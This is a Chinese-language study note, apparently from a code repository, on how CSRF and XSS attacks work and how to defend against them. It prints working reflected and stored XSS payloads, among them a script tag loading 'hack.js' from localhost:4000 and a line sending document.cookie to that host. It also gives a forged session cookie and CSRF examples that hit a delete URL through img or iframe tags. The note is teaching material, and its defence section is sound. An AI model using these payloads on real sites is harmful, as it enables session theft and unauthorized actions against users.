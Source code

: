 ### 攻击xss,csrf
#### 1. csrf攻击
在其他域名下访问被攻击者之前访问域名下的接口，通过img标签的形式，向同一个服务器发送请求，从而形成攻击。    
例如：A用户访问B（域名：http://www.b.com） 网站，登录成功以后cookie信息已经获取到，B网站发送了一个请求 http://www.b.com/list/delete?id=“11” 这样会删除了id为11的信息。如果攻击者此时利用C页面(http:www.c.com)放了一个img标签，且src=‘http://www.b.com/list/delete?id=“12”’ 这样就会向后端发起删除id为12的信息，起到攻击的作用。 因为C页面的src的链接是b页面的，同一个浏览器下面，不同的窗口，向同一个域发起的请求是共享cookie的，所以此时就像是在b网站发起请求一样，也是携带cookie，服务端认为是合法的，从而把id=12的记录给删除了，起到了攻击的作用。    
或者是在c页面放置一个iframe，iframe的链接是删除链接，此时也是可以起到攻击的作用，而且iframe的这种攻击是用浏览器的请求头里的refer字段无法识别的，因为此时的refer的地址就是iframe的地址，即b页面的地址，所以此时使用refer无效。使用img标签的时候应该是可以使用refer来判断访问的网站的。    

#### 2. xss攻击（跨站脚本攻击），利用注入脚本攻击

##### （1）反射型 - url参数直接注入
①：普通：http://localhost:3000/?from=china      
②：alert尝试：http://localhost:3000/?from=<script>alert(3)</script>    
③：获取Cookie：http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"></script>    
伪造cookie入侵： document.cookie="kaikeba:sess=eyJ1c2VybmFtZSI6Imxhb3dhbmciLCJfZXhwaXJlIjoxNTUzNTY1MDAxODYxLCJfbWF4QWdlIjo4NjQwMDAwMH0="    
直接在4000端口的页面输入脚本：var img = new Image(); img.src='http://localhost:4000/img?c='+document.cookie 就能获取cookie    

##### （2）存储型 - 存储到DB后读取时注入（在输入框，例如评论区输入内容）
评论：<script>alert(1)</script>     
跨站脚本注入：我来了<script src="http://localhost:4000/hack.js"></script>

**防范手段**：
+ ejs转义字符
+ 设置黑名单
+ httpOnly cookie（即cookie不能通过document.cookie的方式获取，只能浏览器请求后台时自动带在头部）
+ Referer验证：Referer指的是页面请求来源。意思是，只接受本站的请求，服务器才做响应；如果不是，就拦截。

> xss：跨站脚本攻击、诱骗用户点击恶意链接<u>盗取用户 cookie</u> 进行攻击、不需要用户进行登录、xss 除了利用 cookie 还可以篡改网页等
>
> csrf：跨站请求伪造、<u>无法获取用户的 cookie</u> 而是<u>直接冒充用户、需要用户登录后进行操作</u>

>通常来说 CSRF 是由 XSS 实现的，CSRF 时常也被称为 XSRF（CSRF 实现的方式还可以是直接通过命令行发起请求等）。
>本质上讲，XSS 是代码注入问题，CSRF 是 HTTP 问题。 XSS 是内容没有过滤导致浏览器将攻击者的输入当代码执行。CSRF 则是因为浏览器在发送 HTTP 请求时候自动带上 cookie，而一般网站的 session 都存在 cookie里面(Token验证可以避免)。